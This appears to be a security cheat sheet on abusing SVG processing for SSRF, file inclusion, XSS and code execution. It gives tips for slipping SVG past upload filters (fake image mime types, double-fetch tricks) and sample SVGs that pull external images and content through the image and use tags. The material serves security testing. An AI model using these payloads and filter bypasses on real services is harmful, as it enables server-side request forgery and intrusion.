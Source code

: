 ```yaml
---
layout: memory
title: SVG SSRF Cheatsheet
---
```


Hosts that process SVG can potentially be vulnerable to SSRF, LFI, XSS, RCE because of the rich feature set of SVG.

All of these methods specify a URI, which can be absolute or relative. File and HTTP protocol are important to test, but it could also support other protocols depending on the implementation (e.g. PHP stream schemes), including javascript: and data:.

This document contains a list of all the ways I know about to abuse this functionality in SVG.

Note that some services that claim to not accept SVG as an input format actually do with a little coaxing.

* For uploads, send a JPEG/PNG mime type and filename.
* For downloads, have a JPEG/PNG filename and mime type. If refused, check for TOCTOU on the URL (double fetch) and if it follows redirects.
* I haven't seen it but Mime sniffing confusion is probably also possibleMime sniffing confusion as SVG is difficult to sniff because it can start with extra XML garbage. In fact, AFAICT the standard `file` command doesn't include any SVG magic, so it's likely up to the individual implementations.

# Images

SVG can include external images directly via the `<image>` tag.

``` xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="https://example.com/image.jpg" height="200" width="200"/>
</svg>
```

Note that you can use this to include *other SVG* images too.

# The `<use>` tag

SVG can include external SVG content via the `<use>` tag.

file1.svg:

``` xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="https://example.com/file2.svg#foo"/>
</svg>
```

file2.svg:

```
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
</svg>
```
